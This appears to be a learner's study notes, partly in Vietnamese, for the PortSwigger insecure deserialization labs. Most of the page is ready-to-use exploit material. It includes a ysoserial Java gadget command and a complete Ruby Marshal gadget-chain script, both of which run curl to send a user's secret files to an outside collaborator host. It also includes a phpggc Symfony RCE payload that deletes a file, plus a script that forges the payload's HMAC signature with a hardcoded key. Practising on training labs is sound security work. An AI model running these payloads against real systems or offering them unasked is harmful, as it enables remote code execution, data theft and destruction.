




# [Insecure deserialization](https://portswigger.net/web-security/deserialization)

## Lab

- apprentice:
  - [1. Modifying serialized objects](./lab/1.%20Modifying%20serialized%20objects.md)
- practitioner:
  - [2. Modifying serialized data types](./lab/2.%20Modifying%20serialized%20data%20types.md)
  - [3. Using application functionality to exploit insecure deserialization](./lab/3.%20Using%20application%20functionality%20to%20exploit%20insecure%20deserialization.md)
  - [4. Arbitrary object injection in PHP](./lab/4.%20Arbitrary%20object%20injection%20in%20PHP.md)
  - [5. Exploiting Java deserialization with Apache Commons](./lab/5.%20Exploiting%20Java%20deserialization%20with%20Apache%20Commons.md)
  - [6. Exploiting PHP deserialization with a pre-built gadget chain](./lab/6.%20Exploiting%20PHP%20deserialization%20with%20a%20pre-built%20gadget%20chain.md)
  - [7. Exploiting Ruby deserialization using a documented gadget chain](./lab/7.%20Exploiting%20Ruby%20deserialization%20using%20a%20documented%20gadget%20chain.md)

## Checklist

dirsearch:

```text
/cgi-bin/phpinfo.php
```

xác định phương pháp compress và encode đang sử dụng lên serialized object.

- java:

```shell
java -jar /mnt/d/Downloads/ysoserial-all.jar CommonsCollections7 'curl http://collaborator -d @/home/carlos/secret' | base64 -w 0
```

- php:

```shell
malicious_token=$(phpggc Symfony/RCE4 system 'rm /home/carlos/morale.txt' | base64 -w 0)
secret_key="pyvlelzjky8ysw99sjhmb0nlnijyer8x"
output=$(echo -n $malicious_token|openssl sha1 -hmac $secret_key) # SHA1(stdin)= 205c271ee93e2237c69847160252d89e4f9508d6 
signature=$(echo -n $output|cut -d" " -f2)

echo "{\"token\":\"$malicious_token\",\"sig_hmac_sha1\":\"$signature\"}"
```

- ruby: edit ruby code below and execute it to get malicious serialized object

## ysoserial

A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.

install

- download: [ysoserial-all.jar](https://github.com/frohoff/ysoserial)

- install java version < 12:

```shell
$ sudo apt install openjdk-11-jre-headless
$ sudo update-alternatives --config java
There are 2 choices for the alternative java (providing /usr/bin/java).

  Selection    Path                                         Priority   Status
------------------------------------------------------------
* 0            /usr/lib/jvm/java-17-openjdk-amd64/bin/java   1711      auto mode
  1            /usr/lib/jvm/java-11-openjdk-amd64/bin/java   1111      manual mode
  2            /usr/lib/jvm/java-17-openjdk-amd64/bin/java   1711      manual mode

Press <enter> to keep the current choice[*], or type selection number: 1
```

example:

```shell
java -jar /mnt/d/Downloads/ysoserial-all.jar CommonsCollections7 'curl http://collaborator -d @/home/carlos/secret' | base64 -w 0
```

## java deserialization scanner burpsuite + ysoserial

install and configure:



bug:

`Newlines in headers` problem: when using this extension i get an error, it only adds `\n` to the end of the line, not `\r\n`.



My temporary fix: when `set insertion point` does not set to the end of the line but leaves a few characters, then use the `delete` key to delete each character from left to right. This will preserve the existing `\r\n` character of burpsuite.





## phpggc

install: `sudo apt-get install phpggc`

```shell
malicious_token=$(phpggc Symfony/RCE4 system 'rm /home/carlos/morale.txt' | base64 -w 0)
secret_key="pyvlelzjky8ysw99sjhmb0nlnijyer8x"
output=$(echo -n $malicious_token|openssl sha1 -hmac $secret_key) # SHA1(stdin)= 205c271ee93e2237c69847160252d89e4f9508d6 
signature=$(echo -n $output|cut -d" " -f2)

echo "{\"token\":\"$malicious_token\",\"sig_hmac_sha1\":\"$signature\"}"
```

## ruby

```ruby
# Autoload the required classes

#edited
require 'base64'

Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
#edited
rs.instance_variable_set('@git_set', "curl http://collaborator -d @/home/carlos/morale.txt")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
#edited
puts Base64.strict_encode64(payload)
```

## References

- php:
  - <https://en.wikipedia.org/wiki/PHP_serialization_format>
